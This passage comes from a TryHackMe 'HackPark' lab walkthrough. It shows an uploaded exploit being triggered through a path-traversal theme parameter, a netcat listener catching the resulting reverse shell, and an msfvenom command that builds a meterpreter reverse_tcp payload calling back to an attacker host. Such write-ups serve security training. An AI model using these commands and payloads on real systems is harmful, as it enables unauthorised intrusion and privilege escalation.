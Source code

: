 Use the Upload button to upload the exploit.

![](../assets/images/tryhackme/offensive_pentesting/hackpark/exploit3.png)

Before triggering the exploit start a listener on port 443: the exploit will start a reverse shell to your machine, you need to listen for it in order to catch it.

```bash
root@ip-10-10-75-156:~# nc -lvnp 443
Listening on [0.0.0.0] (family 0, port 443)
```

Time to trigger it! Visit `http://10.10.108.43/?theme=../../App_Data/files` and voilà, if everything was set up properly you should now have a shell.

```bash
Listening on [0.0.0.0] (family 0, port 443)
Connection from 10.10.108.43 49268 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
whoami
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

## Privilege Escalation

You currently have a shell with the user "iis apppool\blog", now it's time to elevate your privileges and get those admin rights.  
Before doing that let's move to a more stable shell: netcat shells are useful but are not very stable.  
Create a reverse shell payload with **msfvenom** that will give you a meterpreter shell.

```bash
root@ip-10-10-75-156:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.75.156 LPORT=4444 -f exe > rev_shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```
